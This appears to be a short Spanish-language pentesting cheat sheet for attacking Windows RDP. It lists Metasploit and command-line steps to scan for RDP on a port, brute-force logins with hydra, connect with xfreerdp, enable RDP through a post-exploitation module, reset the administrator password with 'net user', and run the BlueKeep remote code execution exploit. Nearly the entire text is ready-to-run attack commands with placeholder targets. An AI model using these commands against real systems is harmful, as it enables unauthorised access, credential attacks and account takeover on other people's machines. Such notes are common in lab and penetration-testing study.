 ----------------
- tags: #windows #rdp #rce #bluekeep #metasploit 
------------

### Comprobar si esta RDP detrás de un puerto x

	msfdb run
	search rdp_scanner
	use auxiliary/scanner/rdp/rdp_scanner
	set RHOSTS x.x.x.x
	SET RPORT 3333
	run

### Fuerza bruta con hydra

	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://x.x.x.x -s 3333

### Conectarse con xfreerdp
	xfreerdp /u:administrator /p:123456789 /v:x.x.x.x:3333

### Activarlo desde metasploit

	use post/windows/manage/enable_rdp
	set SESSION x
	exploit

(Cambiamos la contraseña del usuario administrador)

	net user administrator password123

	xfreerdp /u:administrator /p:password123 /v:x.x.x.x

## Explotar BlueKeep

	msfconsole
	seach BlueKeep
	use 1
	set RHOSTS x.x.x.x
	exploit
	show targets
	set target x
	exploit